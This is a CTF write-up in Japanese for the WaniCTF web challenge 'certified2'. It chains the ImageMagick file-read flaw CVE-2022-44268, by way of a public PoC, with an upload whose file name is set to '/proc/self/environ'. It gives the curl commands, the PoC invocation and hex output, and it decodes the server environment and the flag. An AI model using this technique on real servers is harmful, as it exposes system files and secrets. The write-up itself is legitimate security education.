

# certified2:Web:331pts
certified1をご覧ください。  
Please see certified1.  

# Solution
[certified1](../certified1/)の続き問題のようで、環境変数`FLAG_B`を読み取る必要がある。  
サービスは同じで、**承認欲求満たそう君**である。  
  
CVE-2022-44268によるLFIが達成できているため、`/proc/self/environ`を読み取れば終わりだと予想される。  
ここで同じ[PoC](https://github.com/Sybil-Scan/imagemagick-lfi-poc.git)を試すと、何も読み取れない。  
詳しく調査すると、`/proc/self/environ`のファイルのサイズが0と判定されるため読み取れないとわかる。  
ここで方針として、以下のことが考えられる。  

- 何とかして`/proc/self/environ`のファイルサイズが0にならないようにする：無理  
- ImageMagickの別のLFI脆弱性で`/proc/self/environ`を取得：0dayが出とる  
- ImageMagickなどの処理途中で`/proc/self/environ`を開き、CVE-2022-44268経由でfdを読み取る：いろいろと厳しい (fd経由でImageMagickバイナリや送信した画像は取れる)  
- ImageMagickなどのログで環境変数を出力し、CVE-2022-44268経由で読み取る：ログ発見できず  

これら手法はどれも難しく、ほかにシンボリックリンクなども見つけられなかったため、ソースコードの再検証を行う。  
すると以下の個所が気になった。  
```rust
~~~
    fs::copy(
        working_directory.join(input_filename),
        working_directory.join("input"),
    )
    .await
    .context("Failed to prepare input")?;
~~~
```
送信したファイル名をそのまま利用し、`input`なるファイルにコピーしている。  
つまり、送信したファイル名が`/proc/self/environ`であった場合、`input`にフラグが含まれる環境変数がコピーされている。  
試しに送信する。  
```bash
$ curl https://certified-web.wanictf.org/create -F file=@'exploit.png;filename=/proc/self/environ'
Failed to process image

Caused by:
    image processing failed on ./data/ee62b8c9-3223-408f-b4e6-22d2e8ac4e2c:
    magick: no decode delegate for this image format `' @ error/constitute.c/ReadImage/741.
```
予想通り画像でないためにエラーとなり、ファイルは取得できなかった。  
ここで`image processing failed on`のエラーまで処理が進んでいるため、`input`ファイルの作成が行われており、パスが`/data/ee62b8c9-3223-408f-b4e6-22d2e8ac4e2c`であることに気づく。  
既にLFIができるため、このファイルを読み取ってやればよい。  
```bash
$ python generate.py -f '/data/ee62b8c9-3223-408f-b4e6-22d2e8ac4e2c/input' -o exploit2.png

   [>] ImageMagick LFI PoC - by Sybil Scan Research <research@sybilscan.com>
   [>] Generating Blank PNG
   [>] Blank PNG generated
   [>] Placing Payload to read /data/ee62b8c9-3223-408f-b4e6-22d2e8ac4e2c/input
   [>] PoC PNG generated > exploit2.png
$ curl https://certified-web.wanictf.org/create -F file=@exploit2.png -L -o res2.png
$ identify -verbose res2.png
~~~
    Raw profile type:

     268
504154483d2f7573722f6c6f63616c2f7362696e3a2f7573722f6c6f63616c2f62696e3a
2f7573722f7362696e3a2f7573722f62696e3a2f7362696e3a2f62696e00484f53544e41
4d453d30663030353337636565313700415050494d4147455f455854524143545f414e44
5f52554e3d3100464c41475f423d464c41477b6e30775f376861745f7930755f68347665
5f3768655f736563306e645f663161395f7930755f3472655f615f636572743166316564
5f68346e6b305f6d40737465727d00525553545f4c4f473d68616e6b6f2c746f7765725f
687474703d54524143452c494e464f004c495354454e5f414444523d302e302e302e303a
3330303000484f4d453d2f726f6f7400
~~~
$ python -c 'print(bytes.fromhex("504154483d2f7573722f6c6f63616c2f7362696e3a2f7573722f6c6f63616c2f62696e3a2f7573722f7362696e3a2f7573722f62696e3a2f7362696e3a2f62696e00484f53544e414d453d30663030353337636565313700415050494d4147455f455854524143545f414e445f52554e3d3100464c41475f423d464c41477b6e30775f376861745f7930755f683476655f3768655f736563306e645f663161395f7930755f3472655f615f6365727431663165645f68346e6b305f6d40737465727d00525553545f4c4f473d68616e6b6f2c746f7765725f687474703d54524143452c494e464f004c495354454e5f414444523d302e302e302e303a3330303000484f4d453d2f726f6f7400"))'
b'PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\x00HOSTNAME=0f00537cee17\x00APPIMAGE_EXTRACT_AND_RUN=1\x00FLAG_B=FLAG{n0w_7hat_y0u_h4ve_7he_sec0nd_f1a9_y0u_4re_a_cert1f1ed_h4nk0_m@ster}\x00RUST_LOG=hanko,tower_http=TRACE,INFO\x00LISTEN_ADDR=0.0.0.0:3000\x00HOME=/root\x00'
```
`/proc/self/environ`が`input`より読み取れ、flagが含まれていた。  

## FLAG{n0w_7hat_y0u_h4ve_7he_sec0nd_f1a9_y0u_4re_a_cert1f1ed_h4nk0_m@ster}